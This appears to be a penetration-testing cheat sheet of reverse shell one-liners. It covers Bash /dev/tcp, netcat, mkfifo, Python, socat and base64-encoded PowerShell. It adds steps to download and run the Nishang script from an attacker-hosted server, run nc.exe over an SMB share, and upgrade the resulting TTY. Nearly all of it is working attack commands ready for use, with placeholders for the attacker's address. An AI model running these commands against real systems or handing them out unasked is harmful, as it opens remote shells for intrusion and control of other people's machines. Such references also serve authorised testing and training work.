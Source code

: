 # Reverse Shells

## Reverse Shells

### Reverse Shell Generator

[https://www.revshells.com/](https://www.revshells.com/)

### Bash

```bash
bash -i >& /dev/tcp/<ip>/<port> 0>&1
```

{% hint style="info" %}
It is recommended to encapsulate the command in a `bash -c ''` to prevent issues with the _**/dev/tcp**_ bash functionality.
{% endhint %}

We can encode the content in **base64**, to avoid conflicts with symbols and spaces in URLs. Additionally, to prevent any _"+"_ characters from appearing, we can use double encoding.

```bash
# Get the encoded command
echo "bash -i >& /dev/tcp/<ip>/<port> 0>&1" | base64 | base64

# Execute the reverse shell
echo <b64_code> | base64 -d | base64 -d | bash
```

### Netcat

```bash
nc -e /bin/bash <ip> <port>
```

### Mkfifo

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f
```

### Python3

```bash
i="<ip>" p=<port> && echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('$i',$p));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn('bash')" | python3
```

### Socat

```bash
socat tcp-connect:<ip>:<port> exec:/bin/bash,pty,stderr,setsid,sigint,sane
```

### PowerShell&#x20;

#### Base64

```bash
# Get the encoded command
echo '$client = New-Object System.Net.Sockets.TCPClient("<ip>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' | base64 -w 0; echo

# Execute the reverse shell
powershell -e <b64_code>
```

#### Nishang

Run this on your local machine:

{% code overflow="wrap" %}
```bash
i="<ip>" p=<port> && curl -sL https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1 -o rs.ps1 && echo "Invoke-PowerShellTcp -Reverse -IPAddress $i -Port $p" >> rs.ps1 && python3 -m http.server 80
```
{% endcode %}

And while running the python http server, execute this on the target:

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('http://<ip>/rs.ps1')" 
```

#### Netcat

Locate "nc.exe" and copy it to your current directory, then run this on your local machine:

```bash
smbserver.py <share_name> $(pwd) -smb2support
```

And while running the smb server, execute this on the target:

```html
\\<ip>\smbShare\nc.exe -e cmd <ip> <port>
```

## Interactive TTY

{% hint style="info" %}
It is also possible to use `rlwrap` when starting your listening socket:

```bash
rlwrap -cAr nc -nlvp <port>
```
{% endhint %}

```bash
script /dev/null -c bash
```

or

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

and then

```bash
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows <rows> columns <cols>  # Check size in another window -> stty size
```
